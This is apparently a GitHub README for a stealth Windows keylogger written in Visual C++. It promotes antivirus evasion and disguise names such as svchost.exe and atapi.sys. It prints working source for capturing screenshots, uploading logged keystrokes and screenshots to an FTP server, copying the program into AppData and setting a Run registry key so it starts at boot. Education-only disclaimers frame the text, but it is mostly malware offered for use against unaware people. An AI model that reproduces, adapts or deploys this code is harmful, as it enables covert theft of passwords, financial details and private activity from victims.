

#### DISCLAIMER : OUR TOOLS ARE FOR EDUCATIONAL PURPOSES ONLY. DON'T USE THEM FOR ILLEGAL ACTIVITIES. YOU ARE THE ONLY RESPONSABLE FOR YOUR ACTIONS! OUR TOOLS ARE OPEN SOURCE WITH NO WARRANTY AND AS ARE.

   Please Don't Forgot to Hit :star:

# Keylogger

Keylogger Monitors all keystokes, Mouse clicks. It has a seperate process which continues capture system screenshot and send to ftp server in given time. 

Keylogger designed in visual C++ and it is run in the background in stealth mode(Hidden Window).

```
A Keylogger (short for keystroke logger) is software that tracks or logs the keys struck on your keyboard, 
typically in a covertmannerso that you don’t know that your actions are being monitored. 
This is usually done with malicious intent to collect your account information, credit card numbers,
user names, passwords, and other private data.
```

### FEATURES OF KEYLOGGER

- Discrete/Tamper Proof :By design, Keylogger is undetectable and thus cannot be tampered with or removed by kids/employees .

- Keystrokes Typed: See every keystroke typed even if it is deleted. This keystroke logger feature provides a reader-friendly version of all keystrokes logged along with the raw keylogging activity so you can see every detail. 

- Continuous Screenshots: Video-style playback of screenshots for programs and websites selected by you. For example, watch an email as it's being typed and edited instead of just seeing the finished product (1,000 screenshots included with purchase).

- FTP Server: Screenshot and keylogger Logfile which contain senstive user information send to ftp server (Mobile/Web/System). Powerful ftp server also write in Core Visual C++.

- AutoStart : Keylogger has functionaility to auto execute on system bootup. It Insert entry on system startup program when it is running.

- AutoCopy : Keylogger has functionaility to auto copy in %appdata%/roaming/wpdnse/ folder.

### Keylogger.Zip Contain two Executable Files. (Sourcecode File Also Included)

1. svchost.exe (Main Keylogger Processs)
2. rundll33.exe (Capture Screenshot & send all Log and Screenshot to FTP Server (ftp://192.168.8.2:2121))

Execute both files once time next time its automatically start and capture screenshot and keylog.

These names Given for unrecognisable in Task Manager.

### How to Use ?

1. Start FTP Server on This Ip Address 192.168.8.2:2121
2. and Start both program and Enjoy!!!!

### Undectable keylogger (60+ Antivirus Bypass)



Note. This is Outdated Report, May New Virus Update Detect kaylogger

### Visual C++ Source Code

#### Capture Screenshot

```
void screenshot(string file){
	ULONG_PTR gdiplustoken;
	GdiplusStartupInput gdistartupinput;
	GdiplusStartupOutput gdistartupoutput;

	gdistartupinput.SuppressBackgroundThread = true;
	GdiplusStartup(& gdiplustoken,& gdistartupinput,& gdistartupoutput); //start GDI+

	HDC dc=GetDC(GetDesktopWindow());//get desktop content
	HDC dc2 = CreateCompatibleDC(dc);	 //copy context

	RECT rc0kno;

	GetClientRect(GetDesktopWindow(),&rc0kno);// get desktop size;
	int w = rc0kno.right-rc0kno.left;//width
	int h = rc0kno.bottom-rc0kno.top;//height

	HBITMAP hbitmap = CreateCompatibleBitmap(dc,w,h);//create bitmap
	HBITMAP holdbitmap = (HBITMAP) SelectObject(dc2,hbitmap);

	BitBlt(dc2, 0, 0, w, h, dc, 0, 0, SRCCOPY);//copy pixel from pulpit to bitmap
	Bitmap* bm= new Bitmap(hbitmap,NULL);

	UINT num;
	UINT size;

	ImageCodecInfo *imagecodecinfo;
	GetImageEncodersSize(&num,&size); //get count of codec

	imagecodecinfo = (ImageCodecInfo*)(malloc(size));
	GetImageEncoders (num,size,imagecodecinfo);//get codec

	CLSID clsidEncoder;

	for(int i=0; i < num; i++)
	{
		if(wcscmp(imagecodecinfo[i].MimeType,L"image/jpeg")==0)
			clsidEncoder = imagecodecinfo[i].Clsid;//get jpeg codec id

	}

	free(imagecodecinfo);

	wstring ws;
	ws.assign(file.begin(),file.end());//sring to wstring
	bm->Save(ws.c_str(),& clsidEncoder); //save in jpeg format
	SelectObject(dc2,holdbitmap);//Release Objects
	DeleteObject(dc2);
	DeleteObject(hbitmap);

	ReleaseDC(GetDesktopWindow(),dc);
	GdiplusShutdown(gdiplustoken);

}

```

#### Send Screenshot to Server Via FTP

```
void ftp_scrshot_send(){

	HINTERNET hInternet;
	HINTERNET hFtpSession;

	DWORD rec_timeout = 5000;

	hInternet = InternetOpen(NULL,INTERNET_OPEN_TYPE_DIRECT,NULL,NULL,0);
		if(hInternet == NULL){
			log_error_file<<"Error:"<<GetLastError();
		}
		else{
			hFtpSession = InternetConnect(hInternet,"192.168.8.2",2121,NULL,NULL,INTERNET_SERVICE_FTP,0,0);
			InternetSetOption(hInternet,INTERNET_OPTION_SEND_TIMEOUT,&rec_timeout,sizeof(rec_timeout));
			if(hFtpSession == NULL){

				log_error_file<<"Error:"<<GetLastError();
			}
			else{
				if(!FtpPutFile(hFtpSession,"core32.mni","hacks/sc/dc.jpg",FTP_TRANSFER_TYPE_BINARY,0)){
					log_error_file<<"Error:"<<GetLastError();
				}
			}	
		}

	log_error_file.close();
}
```
#### Send KeyLog Data to FTP Server

```
void ftplogsend(){


	HINTERNET hInternet;
	HINTERNET hFtpSession;

	DWORD rec_timeout = 2000;

	hInternet = InternetOpen(NULL,INTERNET_OPEN_TYPE_DIRECT,NULL,NULL,0);

		if(hInternet == NULL){
			log_error_file<<"Error:"<<GetLastError();
		}
		else{
			hFtpSession = InternetConnect(hInternet,"192.168.8.2",2121,NULL,NULL,INTERNET_SERVICE_FTP,0,0);
			InternetSetOption(hInternet,INTERNET_OPTION_SEND_TIMEOUT,&rec_timeout,sizeof(rec_timeout));


			if(hFtpSession == NULL){

				log_error_file<<"Error:"<<GetLastError();
			}
			else{
				if(!FtpPutFile(hFtpSession,"atapi.sys","hacks/hacks.txt",FTP_TRANSFER_TYPE_BINARY,0)){
					log_error_file<<"Error:"<<GetLastError();
					log_error_file.close();
				}
			}


		}
	}
```

#### Auto Copy in AppData Folder & Intialize Keylog Text File with Date Time Stamp

```
void AutoCopy(){

	string f_path = userlc;
	string f_name=f_path;
	f_name+="\\svchost.exe";//file name
	char my_name[260];
	GetModuleFileName(GetModuleHandle(0),my_name,260);//name of running process
	string f_my=my_name;
	CreateDirectory(f_path.c_str(),NULL);
	CopyFile(f_my.c_str(),f_name.c_str(),FALSE);

}

void Install(){

	SYSTEMTIME st;
	GetLocalTime(&st);
	int year = st.wYear;
	int month = st.wMonth;
	int day = st.wDay;
	int hour = st.wHour;
	int mintue = st.wMinute;

	string yearS =  to_string(year);
	yearS += "_";
	string monthS =  to_string(month);
	monthS += "-";
	string dayS =  to_string(day);
	dayS += "-";
	string hourS =  to_string(hour);
	hourS += "H-";
	string mintueS =  to_string(mintue);
	mintueS += "M------------>\n\n";

	string startDate = "\n\n";
	startDate += dayS + monthS + yearS + hourS + mintueS;
	char dateCh[260];
	strcpy(dateCh,startDate.c_str());


	string ff_path = userlc;
	char szDir[260];
	strcpy(szDir,ff_path.c_str());
	strcat(szDir,"atapi.sys");
	FILE *file;
	file = fopen(szDir, "a+");

	fputs(dateCh,file);
	fclose(file);

}
```

#### AutoStart on System Bootup

```
void AutoStart()
{
	char Driver[MAX_PATH];
	HKEY hKey;
	string ff_path = userlc + "svchost.exe";
	strcpy(Driver,ff_path.c_str());
	RegOpenKeyExA(HKEY_CURRENT_USER, "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 0, KEY_SET_VALUE, &hKey);
	RegSetValueExA(hKey, "Windows Atapi x86_64 Driver", 0, REG_SZ, (const unsigned char *)Driver, MAX_PATH);
	RegCloseKey(hKey);
}
```

### Happy Cyber Security
### Happy Open Source......


<h3>Disclaimer</h3>

We wish to clarify our stance on certain matters regarding our services. Please read the following FAQ to better understand our policies and principles:

**FAQ:**

1. **Do you develop malware for personal use or any malicious intent?**
   - No, we categorically do not engage in the development, distribution, or customization of malware, viruses, or any form of malicious software. Our focus is solely on ethical and legal technology solutions.

2. **Do you offer customization services for malware or malicious tools?**
   - No, we do not provide customization services for any malicious software, including malware, viruses, or other harmful code. Our services are designed to align with ethical and legal standards.

3. **What is your responsibility when it comes to the use of your products or services?**
   - While we provide services and products, we are not responsible for any misuse or illegal application of our offerings. Users are expected to adhere to all applicable laws and regulations when using our products and services.

4. **What should users consider when using your products or services?**
   - Users are solely responsible for understanding and complying with local laws, regulations, and guidelines. It is their responsibility to use our offerings in a lawful, ethical, and responsible manner.

5. **Are you liable for any unauthorized or malicious use of your products or services?**
   - No, we are not liable for any actions taken by individuals or entities using our products or services in an unauthorized, illegal, or malicious manner. Users assume full responsibility for their actions.

6. **What is your commitment to ethical and legal standards?**
   - We are committed to maintaining the highest ethical standards in our business practices. Our focus is on providing services that contribute positively to technological advancement while complying with legal frameworks.

7. **What if I have questions about your disclaimer or policies?**
   - Feel free to reach out to us if you have any questions or concerns about our disclaimer, policies, or services. We are here to address your queries.

In conclusion, our company maintains a strong commitment to ethical behavior, legal compliance, and responsible use of technology. We provide services that uphold these principles and encourage our users to engage with our offerings in a responsible and lawful manner.


